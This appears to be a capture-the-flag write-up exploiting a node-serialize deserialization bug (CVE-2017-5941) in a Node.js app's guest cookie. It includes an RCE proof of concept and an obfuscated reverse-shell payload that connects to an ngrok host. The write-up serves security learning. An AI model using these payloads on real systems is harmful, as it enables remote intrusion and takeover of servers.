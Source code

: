 ```yaml
---
description: node.js deserialization vulnerability leads to RCE.
---
```


# Sparta

## Problem

Spartanians are starting to lose their great power, help them move their objects and rebuild their Empire.

## Solution

In the given source code, we can see that the `/guest` endpoint deserializes the base 64 decoded `guest` cookie.

```javascript
app.post('/guest', function(req, res) {
   if (req.cookies.guest) {
       var str = new Buffer(req.cookies.guest, 'base64').toString();
       var obj = serialize.unserialize(str);
       if (obj.username) {
         res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
     var username = req.body.username 
     var country = req.body.country 
     var city = req.body.city
     var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
     res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
```

There is a well-known deserialization vulnerability in node.js that leads to RCE ([CVE-2017-5941](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)).

By passing a serialized object like the following into `serialize.unserialize()`, we can achieve RCE.

```javascript
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('ls /', function(error, stdout, stderr) {
console.log(stdout) });\n }()"}
```

This relies on JavaScript's Immediately Invoked Function Expression (IIFE): notice the IIFE bracket after the function expression:

```javascript
function (){ ... }()
```

Now, we can execute a reverse shell payload within the function that would be fired when the data is deserialized. Using [nodejsshell.py,](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) we can craft such a payload.

In my case: `python nodejsshell.py 2.tcp.ngrok.io 13755` allowed me to generate a reverse shell payload for my ngrok tunnel.

![](<../../.gitbook/assets/image (2) (1).png>)

Then, we can copy the output into the function body.

```javascript
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,50,46,116,99,112,46,110,103,114,111,107,46,105,111,34,59,10,80,79,82,84,61,34,49,51,55,53,53,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}';
serialize.unserialize(payload);
```

Once we tested that our payload works, we can encode the payload to base 64, and send it through the cookie header.

![](<../../.gitbook/assets/image (3) (1).png>)

We obtain a reverse shell, which allows us to read the flag.

![](<../../.gitbook/assets/image (4).png>)

## References:

1. [https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
2. [https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)
